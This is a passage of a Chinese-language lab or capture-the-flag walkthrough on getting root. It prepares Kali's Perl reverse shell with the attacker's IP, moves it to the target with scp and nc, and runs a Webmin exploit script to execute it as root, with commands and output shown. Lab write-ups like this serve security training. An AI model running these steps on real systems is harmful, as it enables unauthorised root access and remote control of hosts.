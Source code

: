 ### 获取root权限

-   使用kali自带脚本来进行提权操作

-   >   └─$ cp /usr/share/webshells/perl/perl-reverse-shell.pl shell.cgi

-   修改脚本中的IP地址

-   ![image-20230526163107173](https://raw.githubusercontent.com/r0o983/images/main/image-20230526163107173.png)

-   修改IP为kali的地址

-   将文件上传到目标机

-   ```shell
    # 使用scp进行传输文件
    └─$ scp -oHostKeyAlgorithms=ssh-rsa,ssh-dss shell.cgi vmware@192.168.2.138:/home/vmware/shell.cgi
    vmware@192.168.2.138's password: 
    shell.cgi 
    
    # 使用nc传输文件 --> kali发送
    └─$ nc -nvlp 1234 < shell.cgi 
    
    # 使用nc传输文件 --> 靶机接收
    vmware@ubuntuvm:/var/tmp$ nc -nv 192.168.2.128 1234 > webshell.cgi
    (UNKNOWN) [192.168.2.128] 1234 (?) open
    
    ```

-   使用脚本执行上传的cgi文件

-   ```shell
    └─$ ./2017.pl 192.168.2.138 10000 /var/tmp/shell.cgi 0 
    WEBMIN EXPLOIT !!!!! coded by UmZ!
    Comments and Suggestions are welcome at umz32.dll [at] gmail.com
    Vulnerability disclose at securitydot.net
    I am just coding it in perl 'cuz I hate PHP!
    Attacking 192.168.2.138 on port 10000!
    FILENAME:  /var/tmp/shell.cgi
    
     FILE CONTENT STARTED
     -----------------------------------
    Browser IP address appears to be: 192.168.2.128<p>
    
     -------------------------------------
    
    ```

-   开启监听等待靶机连接

-   获得root权限
